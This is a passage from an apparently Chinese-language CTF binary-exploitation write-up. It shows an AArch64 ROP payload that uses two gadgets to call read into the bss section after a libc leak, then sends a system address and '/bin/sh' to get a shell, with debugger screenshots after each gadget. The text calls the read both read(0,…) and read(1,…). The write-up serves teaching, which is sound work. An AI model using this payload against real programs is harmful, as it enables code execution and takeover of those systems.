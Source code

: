 获取了libc基址后，我们就可以布置`read(0,bss+0x100,0x20)`​来送入shellcode

```plain
pl = b'a'*0x88 + p64(g1) #x29  x30
pl+= p64(main) + p64(0x100000000) 
pl+= p64(0) + p64(g2) #g1: x29   x30
pl+= p64(0) + p64(1) #g1: x19 --0   x20 --1
pl+= p64(elf.got['read']) + p64(0) #g1: x21 --addr  x22 --x0
pl+= p64(bss1) + p64(0x20) #g1: x23 --x1  x24 --x2
pl+= p64(0) + p64(main) #x29   x30
```

pl送入

[![](assets/1700442742-296520e10233ca3f9cbf97a892896473.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183806-648c299a-8535-1.png)

g1执行完

[![](assets/1700442742-7a737a1d22902f01db0ec0a0ffa60e77.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183809-66493750-8535-1.png)

g2执行完

[![](assets/1700442742-141085cb7b4e81635147db8fc17b6c14.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183812-6896fcae-8535-1.png)

布置好了`read(1,bss+0x100,0x20)`​后，将shellcode送入

```plain
pause()
p.sendline(p64(system)+b'/bin/sh\x00')
```
